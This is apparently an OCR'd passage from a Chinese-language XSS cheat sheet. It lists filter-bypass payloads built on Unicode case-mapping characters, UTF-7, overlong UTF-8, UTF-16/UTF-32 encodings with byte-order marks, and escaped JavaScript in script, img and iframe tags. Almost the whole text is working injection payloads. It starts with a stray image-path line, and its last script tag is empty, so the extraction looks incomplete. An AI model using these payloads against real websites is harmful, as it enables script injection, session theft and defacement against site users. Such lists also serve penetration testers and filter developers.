   	绕过使用转换为大写的 Unicode
  	İ (%c4%b0).toLowerCase() => i
  	ı (%c4%b1).toUpperCase() => I
  	ſ (%c5%bf) .toUpperCase() => S
  	K (%E2%84%AA).toLowerCase() => k
  	
  	<ſvg onload=... > become <SVG ONLOAD=...>
  	<ıframe id=x onload=>.toUpperCase() become <IFRAME ID=X ONLOAD=>
  ##### UTF-7
  	+ADw-img src=+ACI-1+ACI- onerror=+ACI-alert(1)+ACI- /+AD4-
  ##### UTF-8
  	< = %C0%BC = %E0%80%BC = %F0%80%80%BC
  	> = %C0%BE = %E0%80%BE = %F0%80%80%BE
  	' = %C0%A7 = %E0%80%A7 = %F0%80%80%A7
  	" = %C0%A2 = %E0%80%A2 = %F0%80%80%A2
  	" = %CA%BA
  	' = %CA%B9
  ##### UTF-16be
  	%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E%00
  	\x00<\x00s\x00v\x00g\x00/\x00o\x00n\x00l\x00o\x00a\x00d\x00=\x00a\x00l\x00e\x00r\x00t\x00(\x00)\x00>
  ##### UTF-32
  	%00%00%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
  ##### 使用 BOM 绕过
  	字节顺序标记（页面必须以 BOM 字符开头。） BOM 字符允许您覆盖页面的字符集
  	BOM Character for UTF-16 Encoding:
  	Big Endian : 0xFE 0xFF
  	Little Endian : 0xFF 0xFE
  	XSS : %fe%ff%00%3C%00s%00v%00g%00/%00o%00n%00l%00o%00a%00d%00=%00a%00l%00e%00r%00t%00(%00)%00%3E
  	
  	BOM Character for UTF-32 Encoding:
  	Big Endian : 0x00 0x00 0xFE 0xFF
  	Little Endian : 0xFF 0xFE 0x00 0x00
  	XSS : %00%00%fe%ff%00%00%00%3C%00%00%00s%00%00%00v%00%00%00g%00%00%00/%00%00%00o%00%00%00n%00%00%00l%00%00%00o%00%00%00a%00%00%00d%00%00%00=%00%00%00a%00%00%00l%00%00%00e%00%00%00r%00%00%00t%00%00%00(%00%00%00)%00%00%00%3E
  ##### 奇怪的编码
  	<script>\u0061\u006C\u0065\u0072\u0074(1)</script>
  	<img src="1" onerror="&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
  	<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>
  	<script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     </script>
